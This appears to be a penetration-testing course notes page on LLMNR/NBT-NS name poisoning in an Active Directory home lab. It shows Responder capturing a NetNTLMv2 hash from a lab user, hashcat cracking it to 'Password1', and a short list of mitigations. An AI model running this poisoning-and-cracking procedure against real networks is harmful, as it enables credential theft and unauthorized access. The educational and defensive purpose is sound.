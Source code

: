 ```yaml
---
layout: default
title: Initial Attack Vectors
parent: ActiveDirectory
grand_parent: TCM-Sec - PEH
permalink: /tcm-sec-PEH/active-directory/initial-attack-vectors
nav_order: 1
---
```


# Scanning & Enumeration <!-- markdownlint-disable-line MD025 MD022 -->
{: .no_toc}

## Table of contents <!-- markdownlint-disable-line MD022 -->
{: .no_toc .text-delta}

- TOC
{:toc }

## LLMNR Poisoning

The "NetBIOS and LLMNR Name Poisoning" attack is a man-in-the-middle (MITM) technique that involves manipulating network name resolution protocols to redirect and intercept network traffic, enabling an attacker to compromise communication and gain unauthorized access to systems.


![Alt text](<../../assets/TCM-Sec/AD/Netbios and LLMNR Name Poisoning.png>)


### Step 1. Start the MITM listener on the attacker machine

Here we use the Responder toolkit, a python based tool used for various network security assessments, specifically designed to exploit weaknesses in network protocols.

```console
┌──(kali㉿kali)-[~]
└─$ sudo python /usr/share/responder/Responder.py -I eth0 -dw -v
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [10.0.2.9]
    Responder IPv6             [fe80::c29:8818:2c:ff5b]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-DHHQNHS3HNM]
    Responder Domain Name      [03CO.LOCAL]
    Responder DCE-RPC Port     [49857]

[+] Listening for events...
                                

[!] Error starting SSL server on port 5986, check permissions or other servers running.
[!] Error starting SSL server on port 443, check permissions or other servers running.
```

Now that the listener is up and running lets initiate a flawed dns request, we'll make a network drive request to the attacker machine for simplicity here.

### 2. Make a flawed DNS request

Making a flawed DNS request on a victim machine

![Flawed DNS Request](<../../assets/TCM-Sec/AD/Flawed DNS request.png>)

The Responder HTTP gets the request and we get the client IP, the NTLM hash as well as the domain and the user name.

```console
[PROXY] Received connection from 10.0.2.16
[HTTP] GET request from: ::ffff:10.0.2.16  URL: / 
[HTTP] NTLMv2 Client   : 10.0.2.16
[HTTP] NTLMv2 Username : MARVEL\Frank
[HTTP] NTLMv2 Hash     : Frank::MARVEL:7dfb054dc6c5fe48:FEE1D6BE28364715DA41C4102F95B624:01010000000000006F5F
A65BD6B4D9013C9BD5DAB98FE6090000000002000800470043003000330001001E00570049004E002D005600430045004500590058004
80055004B0046004A000400140047004300300033002E004C004F00430041004C0003003400570049004E002D00560043004500450059
005800480055004B0046004A002E0047004300300033002E004C004F00430041004C000500140047004300300033002E004C004F00430
041004C000800300030000000000000000100000000100000FDDFF309592F822CCEEF84C50B7191FD04413B99EFE1F6BB19D07637A4B8
EBEF0A0010000000000000000000000000000000000009001A0048005400540050002F00310030002E0030002E0032002E00390000000
00000000000   
```

Let see if we can simply crack that hash using hashcat.

```console
──(kali㉿kali)-[~]
└─$ hashcat 'Frank::MARVEL:38140d92e111e3df:B04456F69DED2D7610B1532F633B9C0D:0101000000000000A8ED7064D6B4D901
43EF0174E3FFDD8F0000000002000800470043003000330001001E00570049004E002D00560043004500450059005800480055004B004
6004A000400140047004300300033002E004C004F00430041004C0003003400570049004E002D00560043004500450059005800480055
004B0046004A002E0047004300300033002E004C004F00430041004C000500140047004300300033002E004C004F00430041004C00080
0300030000000000000000100000000100000FDDFF309592F822CCEEF84C50B7191FD04413B99EFE1F6BB19D07637A4B8EBEF0A001000
0000000000000000000000000000000009001A0048005400540050002F00310030002E0030002E0032002E0039000000000000000000' 
/usr/share/wordlists/rockyou.txt --force     
hashcat (v6.2.6) starting in autodetect mode

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-penryn-Intel(R) Core(TM) i9-9880H CPU @ 2.30GHz, 2189/4443 MB (1024 MB allocatable), 4MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

5600 | NetNTLMv2 | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

FRANK::MARVEL:38140d92e111e3df:b04456f69ded2d7610b1532f633b9c0d:0101000000000000a8ed7064d6b4d90143ef0174e3ffdd8f0000000002000800470043003000330001
001e00570049004e002d00560043004500450059005800480055004b0046004a000400140047004300300033002e004c004f00430041004c0003003400570049004e002d0056004300
4500450059005800480055004b0046004a002e0047004300300033002e004c004f00430041004c000500140047004300300033002e004c004f00430041004c00080030003000000000
0000000100000000100000fddff309592f822cceef84c50b7191fd04413b99efe1f6bb19d07637a4b8ebef0a0010000000000000000000000000000000000009001a00480054005400
50002f00310030002e0030002e0032002e0039000000000000000000:Password1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: FRANK::MARVEL:38140d92e111e3df:b04456f69ded2d7610b1...000000
Time.Started.....: Wed Jul 12 17:43:26 2023, (0 secs)
Time.Estimated...: Wed Jul 12 17:43:26 2023, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    22988 H/s (3.06ms) @ Accel:512 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4096/14344385 (0.03%)
Rejected.........: 0/4096 (0.00%)
Restore.Point....: 2048/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: slimshady -> oooooo
Hardware.Mon.#1..: Util: 17%

Started: Wed Jul 12 17:42:49 2023
Stopped: Wed Jul 12 17:43:27 2023
```

> Success... the password is "Password1". Sloppy ^^

### Mitigations

1. Disable LLMNR 
2. Disable NBT-NS (fallback of LLMNR)
3. Alternatively enable Network Access Control
4. Review password policy and enforcement

---


